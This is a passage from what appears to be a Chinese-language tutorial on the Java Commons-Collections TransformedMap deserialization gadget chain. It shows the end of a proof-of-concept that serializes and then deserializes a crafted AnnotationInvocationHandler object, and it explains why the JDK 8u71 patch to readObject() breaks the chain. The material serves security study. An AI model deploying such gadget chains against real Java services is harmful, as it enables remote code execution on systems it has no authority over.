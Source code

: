 ```java
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Target.class, transformermap);

        File f = File.createTempFile("temp", "out");

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(f));
        oos.writeObject(obj);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(f));
        Object o = ois.readObject();
        System.out.println(o);
        ois.close();

        f.deleteOnExit();
    }
}


```

## JDK的限制

这条`TransformedMap`链只能用于JDK8u71之前，原因就是从8u71开始，`AnnotationInvocationHandler`的`readObject()`方法发生了改变：

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        GetField var2 = var1.readFields();
        Class var3 = (Class)var2.get("type", (Object)null);
        Map var4 = (Map)var2.get("memberValues", (Object)null);
        AnnotationType var5 = null;

        try {
            var5 = AnnotationType.getInstance(var3);
        } catch (IllegalArgumentException var13) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var6 = var5.memberTypes();
        LinkedHashMap var7 = new LinkedHashMap();

        String var10;
        Object var11;
        for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11)) {
            Entry var9 = (Entry)var8.next();
            var10 = (String)var9.getKey();
            var11 = null;
            Class var12 = (Class)var6.get(var10);
            if (var12 != null) {
                var11 = var9.getValue();
                if (!var12.isInstance(var11) && !(var11 instanceof ExceptionProxy)) {
                    var11 = (new AnnotationTypeMismatchExceptionProxy(var11.getClass() + "[" + var11 + "]")).setMember((Method)var5.members().get(var10));
                }
            }
        }

        AnnotationInvocationHandler.UnsafeAccessor.setType(this, var3);
        AnnotationInvocationHandler.UnsafeAccessor.setMemberValues(this, var7);
    }

```
